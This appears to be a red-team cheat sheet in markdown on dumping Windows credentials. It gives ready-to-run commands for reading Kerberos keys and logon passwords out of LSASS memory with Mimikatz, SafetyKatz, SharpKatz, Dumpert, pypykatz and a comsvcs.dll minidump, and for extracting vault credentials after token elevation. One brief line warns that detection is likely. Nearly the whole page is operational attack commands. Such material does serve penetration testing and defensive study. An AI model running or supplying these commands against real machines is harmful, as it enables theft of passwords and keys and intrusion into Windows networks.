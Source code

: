 # Credentials Dump

## LSASS

{% hint style="warning" %}
high chances of detection
{% endhint %}

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords&#x20;

This usually shows recently logged on user and computer credentials.

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
</strong></code></pre>

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

####
